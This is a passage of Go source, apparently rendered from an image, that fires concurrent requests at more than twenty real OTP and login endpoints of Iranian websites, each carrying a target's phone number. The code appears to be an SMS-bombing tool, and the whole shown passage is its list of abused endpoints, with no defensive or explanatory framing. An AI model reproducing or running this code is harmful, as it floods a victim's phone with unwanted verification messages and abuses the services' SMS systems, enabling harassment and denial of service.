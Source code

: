 		go sms("https://api.dadhesab.ir/user/entry", map[string]interface{}{
			"username": phone,
		}, ch)
		go sms("https://app.dosma.ir/sendverify/", map[string]interface{}{
			"username": phone,
		}, ch)
		go sms("https://api.ehteraman.com/api/request/otp", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://api-ebcom.mci.ir/services/auth/v1.0/otp", map[string]interface{}{
			"msisdn": phone,
		}, ch)
		go sms("https://api.hbbs.ir/authentication/SendCode", map[string]interface{}{
			"MobileNumber": phone,
		}, ch)
		go sms("https://api.iranamlaak.net/authenticate/send/otp/to/mobile/via/sms", map[string]interface{}{
			"AgencyMobile": phone,
		}, ch)
		go sms("https://api.kcd.app/api/v1/auth/login", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://mazoocandle.ir/login", map[string]interface{}{
			"phone": phone,
		}, ch)
		go sms("https://api.ostadkr.com/login", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://api.paymishe.com/api/v1/otp/registerOrLogin", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://api.rayshomar.ir/api/Register/RegistrMobile", map[string]interface{}{
			"MobileNumber": phone,
		}, ch)
		go sms("https://refahtea.ir/wp-admin/admin-ajax.php", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://digitalsignup.snapp.ir/oauth/drivers/api/v1/otp", map[string]interface{}{
			"cellphone": phone,
		}, ch)
		go sms("https://mamifood.org/Registration.aspx/SendValidationCode", map[string]interface{}{
			"Phone": phone,
		}, ch)
		go sms("https://server.uphone.ir/api/v1/login/otp/request", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://abantether.com/users/register/phone/send/", map[string]interface{}{
			"phoneNumber": phone,
		}, ch)
		go sms("https://www.glite.ir/wp-admin/admin-ajax.php", map[string]interface{}{
			"action=logini_first&login": phone,
		}, ch)
		go sms("https://novinbook.com/index.php?route=account/phone", map[string]interface{}{
			"phone": phone,
		}, ch)
		go sms("https://api.offch.com/auth/otp", map[string]interface{}{
			"username": phone,
		}, ch)
		go sms("https://sandbox.sibbazar.com/api/v1/user/invite", map[string]interface{}{
			"username": phone,
		}, ch)
		go sms("https://sabziman.com/wp-admin/admin-ajax.php", map[string]interface{}{
			"action=newphoneexist&phonenumber=": phone,
		}, ch)